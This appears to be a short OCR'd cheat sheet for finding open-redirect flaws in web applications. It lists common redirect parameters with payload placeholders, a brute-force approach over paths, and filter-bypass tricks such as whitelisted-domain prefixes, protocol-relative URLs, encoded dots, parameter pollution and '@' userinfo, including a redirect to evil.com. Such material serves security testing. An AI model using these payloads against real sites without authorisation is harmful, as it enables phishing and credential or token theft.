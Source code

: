 ### Payload Examples:
```
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```

### Approach:
1. **URL Redirection on Path Fragments:**
   ```
   example: any.com/payloads
   any.com/bing.com
   any.com//bing.com
   any.com//bing.com/%2e%2e
   ```
   Use the payload to attempt a brute-force attack.

2. **Sort the Parameters Returning a 200 Response:**
   ```
   GET /url=https://bing.com/
   ```

### Bypassing Techniques:
- Using a whitelisted domain or keyword: `https://www.whitelisted.com/evil.com` redirects to `evil.com`
- Using `//` to bypass `http` blacklisted keyword: `//google.com`
- Using `https:` to bypass `//` blacklisted keyword: `https:google.com`
- Using `%E3%80%82` to bypass `.` blacklisted character: `//google%E3%80%82com`
- Using parameter pollution: `?next=whitelisted.com&next=google.com`
- Using `@` character: `http://www.theirsite.com@yoursite.com/`

